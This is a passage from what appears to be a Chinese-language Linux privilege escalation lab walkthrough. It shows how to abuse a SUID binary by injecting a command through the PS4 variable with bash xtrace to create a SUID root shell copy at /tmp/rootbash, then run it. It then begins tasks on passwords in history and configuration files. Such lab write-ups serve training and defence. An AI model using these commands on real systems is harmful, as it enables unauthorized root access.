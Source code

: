 运行 **/usr/local/bin/suid-env2** 可执行文件，启用 bash 调试，并将 PS4 变量设置为一个嵌入式命令，这将创建/bin/bash 的 suid 版本:

```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

使用-p 运行/tmp/rootbash 可执行文件，以获得使用 root 权限运行的 shell:

```
/tmp/rootbash -p
```

**记得在继续之前删除/tmp/rootbash 可执行文件并退出提升的 shell，因为稍后您将在房间中再次创建该文件！**

```
rm /tmp/rootbash
exit
```

![](img/335c0fd13709e8c9649087ee67b6fdc9.png)

# 任务 16:密码和密钥-历史文件

![](img/89705d22a946ab62350ae220017a0f5d.png)

使用密码切换到 root 用户:

```
su root
```

# 任务 17:密码和密钥-配置文件
